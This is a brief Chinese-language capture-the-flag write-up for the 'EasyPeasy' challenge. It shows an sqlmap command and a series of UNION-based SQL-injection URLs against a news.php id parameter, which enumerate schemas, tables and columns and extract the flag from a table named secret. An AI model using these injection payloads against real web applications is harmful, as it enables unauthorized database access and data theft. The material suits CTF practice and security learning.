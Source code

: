 ### EasyPeasy

一連上去先用自動帶我們到 http://xxx/news.php?id=1

先 `sqlmap -u http://xxx/news.php?i --random-agent` 

(以上xxx為題目URL)

找到playload `id=-4031 UNION ALL SELECT NULL,NULL,CONCAT(0x7171706a71,0x6872464461534467546173754f6d554f5a454178556d6f6f546578736a4
f4274506a4c596a76774e,0x717a707671)-- hZDH`

先撈DB

`http://140.110.112.32:4001/news.php?id=-4031 union select 1, database(), group_concat(schema_name) from information_schema.schemata -- -`

回傳 : information_schema,fl4g,mysql,news,test

撈TABLE

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',group_concat(TABLE_NAME)) from information_schema.tables where table_schema='fl4g' -- -`

回傳 : secret

撈COLUMN

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',group_concat(column_name)) from information_schema.columns where table_name='secret' -- -
`

回傳 : id,THIS_IS_FLAG_YO

撈value

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',THIS_IS_FLAG_YO) from fl4g.secret-- -`

FLAG就出來了
